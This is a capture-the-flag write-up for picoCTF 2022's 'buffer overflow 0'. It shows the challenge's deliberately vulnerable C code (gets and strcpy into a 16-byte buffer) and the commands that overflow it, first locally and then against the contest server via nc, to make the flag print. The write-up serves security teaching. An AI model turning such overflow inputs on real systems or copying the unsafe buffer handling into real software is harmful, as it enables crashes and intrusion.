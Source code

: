# buffer overflow 0

- [Challenge information](buffer_overflow_0.md#challenge-information)
- [Solution](buffer_overflow_0.md#solution)

## Challenge information
```
Points: 100
Tags: picoCTF 2022, Binary Expoitation, gets
Author: ALEX FULTON / PALASH OSWAL

Description:

Smash the stack
Let's start off simple, can you overflow the correct buffer? 

The program is available here. You can view source here. And connect with it using:
nc saturn.picoctf.net 61481
 
Hints:
1. How can you trigger the flag to print?
2. If you try to do the math by hand, maybe try and add a few more characters. 
   Sometimes there are things you aren't expecting.
3. Run man gets and read the BUGS section. How many characters can the program really read?
```

## Solution

### Study the source code

The `main` function of the program look like this
```c
int main(int argc, char **argv){
  
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }
  
  fgets(flag,FLAGSIZE_MAX,f);
  signal(SIGSEGV, sigsegv_handler); // Set up signal handler
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);


  printf("Input: ");
  fflush(stdout);
  char buf1[100];
  gets(buf1); 
  vuln(buf1);
  printf("The program will exit now\n");
  return 0;
}
```

This is a classic buffer overflow. The program sets up a signal handler catching `SIGSEGV` error conditions.
SigSegV means a signal for memory access violation, essentially trying to read or write from/to a memory area 
that your process does not have access to. This is also known as a segmentation fault.

When this happens the code in the `sigsegv_handler` is executed and tries to fix the problem or at least graciously quit the program.
```c
void sigsegv_handler(int sig) {
  printf("%s\n", flag);
  fflush(stdout);
  exit(1);
}
```

Conveniently, in this case the code prints the flag for us.

There is also a `vuln` function with a rather small buffer
```c
void vuln(char *input){
  char buf2[16];
  strcpy(buf2, input);
}
```

If we overflow this buffer with more data than it can handle, we might write to the return address of the function stored on the stack. If that memory address is illegal when the program tries to return, we will cause a segmentation fault.

### Try exploitation locally 

Lets try to overflow the buffer locally first.
```
┌──(kali㉿kali)-[/picoCTF/picoCTF_2022/Binary_Exploitation/Buffer_Overflow_0]
└─$ chmod +x vuln

┌──(kali㉿kali)-[/picoCTF/picoCTF_2022/Binary_Exploitation/Buffer_Overflow_0]
└─$ ./vuln
Please create 'flag.txt' in this directory with your own debugging flag.
```

Ah, that's right. We need a dummy flag for testing.
```
┌──(kali㉿kali)-[/picoCTF/picoCTF_2022/Binary_Exploitation/Buffer_Overflow_0]
└─$ echo "picoCTF{Fake_Flag}" > flag.txt
                                          
┌──(kali㉿kali)-[/picoCTF/picoCTF_2022/Binary_Exploitation/Buffer_Overflow_0]
└─$ python -c "print('A'*20)" | ./vuln  
Input: picoCTF{Fake_Flag}
```

Success! We sent 20 bytes (slightly more than the buffer size of 16) and we got the flag.

### Connect to the server and get the flag

Finally, lets connect to the server and try to get the flag. If we don't succeed, we slight increse the input until we do.
```
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2022/Binary_Exploitation/Buffer_Overflow_0]
└─$ python -c "print('A'*20)" | nc saturn.picoctf.net 61481

Input:                             
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2022/Binary_Exploitation/Buffer_Overflow_0]
└─$ python -c "print('A'*25)" | nc saturn.picoctf.net 61481
Input:

┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2022/Binary_Exploitation/Buffer_Overflow_0]
└─$ python -c "print('A'*30)" | nc saturn.picoctf.net 61481
Input: picoCTF{<REDACTED>}
```
